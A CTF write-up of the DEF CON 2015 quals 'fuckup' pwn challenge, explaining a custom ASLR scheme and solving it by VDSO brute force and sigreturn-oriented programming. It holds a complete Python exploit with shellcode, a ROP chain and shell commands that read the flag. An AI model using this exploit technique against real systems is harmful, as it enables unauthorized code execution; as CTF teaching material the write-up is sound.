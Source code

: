 title: DEF CON CTF 2015 - fuckup (pwn3) Writeup
date: 2015-05-19 22:14:08
tags:
- writeup
- pwn
---

## Description
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:2000
> OR
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:46387
> [Download](http://downloads.notmalware.ru/fuckup_56f604b0ea918206dcb332339a819344)

## Introduction

This is a PoC service for the new and improved ASLR, "Fully Unguessable Convoluted Kinetogenic Userspace Pseudoransomization"(F.U.C.K.U.P. for short).
Each time a user executes a command, F.U.C.K.U.P. changes the base address of memory where the binary is mapped according to a random number produced by the generation algorithm similar to WELL512.

We can select from the following commands:
 0. Quit: simply `return 0;`.
 1. Display info: Display an introduction. Nothing interesting.
 2. Change random: Generate a random value and move mappings correspondingly.
 3. View state info: Show the current random value and then change the value as same as "Change random".
 4. Test stack smash: Cause stack based buffer overflow by 100 bytes against a 10-byte buffer.

Actually, I don't know the detailed implementations of these commands except for "Test stack smash", for it was not I but another team member who coped with this challenge at first.
It seems that the author's intended solution is to use SMT solver like z3 to predict random values generated, and my teammate attempted to do that. 
It, however, didn't work correctly since we were unfamiliar with and poor at using SMT solver.
So I decided to try to solve this problem by the really "pwnwise" solution.

First, I suspected Partial Overwrite could be used.
Yes, actually it can be.
Reading `stack_smash(sub_8048521)`, there is called `read_n(sub_8048363)` which simply receives input as this:
```C
sum = 0;
do {
    nread = read(0, addr, n-sum);
    if (nread != -1) sum += nread;
} while (sum < n);
```
As you may see, this implementation is weird because using `read(0, addr, n-sum)` instead of `read(0, addr+sum, n-sum)`.
Therefore, it is possible to do Partial Overwrite by splitting input into several.
[@wapiflapi](https://twitter.com/wapiflapi/), a great hacker in France shares the exploit using this method([http://hastebin.com/iyinepaxen.py](http://hastebin.com/iyinepaxen.py)).
Very simple, isn't it?

BUT I COULD NOT COME UP WITH IT.
Because I misread `read_n` as `read(0, addr+sum, n-sum)`.
So at that time I thought "Wow, nice security. I have no choice but to overwrite a buffer completely by 100 bytes. If I can't use Partial Overwrite, then how can I solve this...?". Too stupid.
Okay, let me explain how I solved this problem even though I couldn't use z3 and Partial Overwrite.

## Solution
Thinking that the return address is always overwritten by a buffer overflow, I had to overwrite it with some valid address.
Here, valid address means a address being mapped and executable.
So there are two possible ways to exploit the binary:
 1. Fix valid addresses somehow.
 2. Use the addresses which are always fixed.

I thought the former could be realized because the number of mapped addresses goes on increasing by `change_mapping(sub_80481A6)`.
In change_mapping, `mmap` is called like this:
```C
do
{
    seedf = randf(state) * 4294967295.0;
    seedl = (int)seedf;
    expect = (void *)(seedl & 0xFFFFF000);
    actual = mmap(expect, 0x7000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
} while (expect != actual);
```
As you can see, the mapped addresses won't be unmapped even if it fails to establish mappings at expected addresses.
Therefore, the more the number of mapped addresses has increased, the less the number of the possible addresses capable of being becomes.
But this approach isn't realistic because it needs to do "Change random" many times(about thouthands or hundreds of thouthands times).

The latter, actually, can be realized: using VDSO.
I think everyone knows this, but VDSO ASLR is weaker than ASLR on the other sections(that entropy is usually only 2 bytes) and there is a famous exploit method, Sigreturn Oriented Programming(SROP).
That means we can solve this problem by doing brute force 256 times.
It was a little bit difficult for me to write the exploit due to the limitation that I had to do ROP only with gadgets on VDSO and that I was allowed to use only 78 bytes for ROP.
Why `stack_addr = vdso - 0x800` does work correctly is described in [my paper](http://www.npca.jp/works/magazine/2015_1/).
sysenter is a good gadget for stack pivotting!

```python
import subprocess
import socket
import re
import sys
import random
from struct import pack, unpack
from Frame import SigreturnFrame
from time import sleep
from sys import argv

TARGET = ('localhost', 6666)
if len(argv) > 1:
    TARGET  = ('fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me', 2000)

OFFSET_SR   = 0x401
OFFSET_SC   = 0x42e
OFFSET_SY   = 0x425
OFFSET_POP  = 0x431
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x54\x59\x50\x5a\x6a\x0b\x58\xcd\x80"

RANGE_VDSO  = range(0xf7700000, 0xf7800000, 0x1000)

def recv_until(sock, pat):
    buf = b''
    while buf.find(pat) == -1:
        buf += sock.recv(1)
    return buf

def main():
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(TARGET)

        vdso = random.choice(RANGE_VDSO)
        stack_addr = vdso - 0x800
        shellcode_addr = vdso - 0x1000
        print "vdso:", hex(vdso)

        data = b'\x00' * (0x16)
        data += pack('<I', vdso + OFFSET_POP)   # pop edx, ecx
        data += pack("<I", 2304)                # edx
        data += pack("<I", shellcode_addr)      # ecx

        data += pack('<I', vdso + OFFSET_SC)    # read(eax=3)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)

        data += pack('<I', vdso + OFFSET_SY)    # sysenter 
 
        print "data:", len(data)
        data = data.ljust(100, 'A')
        assert(len(data) == 100)

        recv_until(sock, b'0. Quit')
        sock.sendall(b'4\n')
        recv_until(sock, b'stop code execution')

        sock.sendall(data[:-3])
        sock.sendall("")
        sleep(1)
        sock.sendall(data[-3:]) # eax = 3

        stack = ""
        stack += pack("<I", 0xdeadbeef) * 3
        stack += pack("<I", vdso + OFFSET_SR)

        frame = SigreturnFrame(arch="x86")
        frame.set_regvalue("eax", 0x7d)           # mprotect
        frame.set_regvalue("ebx", shellcode_addr) # addr
        frame.set_regvalue("ecx", 0x1000)         # len
        frame.set_regvalue("edx", 7)              # prot
        frame.set_regvalue("eip", vdso + OFFSET_SC)
        frame.set_regvalue("esp", stack_addr+0x80)
        frame.set_regvalue("ds", 0x2b)
        frame.set_regvalue("es", 0x2b)

        stack += frame.get_frame()
        stack += pack("<I", shellcode_addr) * 40
        
        sleep(1)

        payload = SHELLCODE
        payload = payload.ljust(0x800, "\x90")
        payload += stack
        print "payload:", len(payload)
        assert(len(payload) <= 0x1000)

        sleep(1)
        sock.sendall(payload)
        sleep(0.1)

        sock.sendall("ls\n")
        sock.sendall("ls /home\n")
        sock.sendall("ls /home/fuckup\n")
        sock.sendall("ls /home/fuckup/flag\n")
        sock.sendall("ls /home/fuckup/*flag*\n")
        sock.sendall("cat /home/fuckup/*flag*\n")

        sleep(1)

        resp = ""
        resp += sock.recv(65535)
        if resp == '' or resp == '\n':
            raise Exception("Failed")
        print [resp]
        raw_input()
        
if __name__ == '__main__':
    i = 1
    while True:
        print "\nTry {}:".format(i)
        try:
            main()
        except Exception as e:
            print e
            pass
        i += 1
```
Using [Frame.py](https://github.com/eQu1NoX/srop-poc/blob/master/Frame.py).

```
['\nbin\nboot\ndev\netc\nhome\ninitrd.img\ninitrd.img.old\nlib\nlib64\nlost+found\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\nvmlinuz\nvmlinuz.old\nfuckup\nubuntu\nflag\nfuckup\n/home/fuckup/flag\n/home/fuckup/flag\nThe flag is: z3 always helps\n']
```

##Summary
Sleep enough not to misread disas.

written by hugeh0ge([@hugeh0ge](https://twitter.com/hugeh0ge))
